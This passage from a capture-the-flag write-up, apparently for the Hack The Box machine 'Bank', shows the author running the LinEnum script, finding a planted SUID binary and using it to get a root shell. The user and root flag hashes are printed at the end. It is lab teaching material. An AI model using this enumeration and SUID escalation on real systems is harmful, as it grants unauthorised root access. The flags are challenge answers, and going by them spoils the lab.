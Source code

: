 Launch it :

```
bash LinEnum.sh | tee results.txt
```

Looking through the results multiple times, I notice this line which stands out :

```
[-] SUID files:
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
```

So I tried to use it :

```
www-data@bank:/tmp$ /var/htb/bin/emergency
# whoami
root
```

And there I was root ! Now let's read the flags.

## Flags

------

### User.txt

```
# cat /home/chris/user.txt
37c97f8609f361848d8872098b0721c3
```

### Root.txt

```
# cat /root/root.txt
d5be56adc67b488f81a4b9de30c8a68e
```
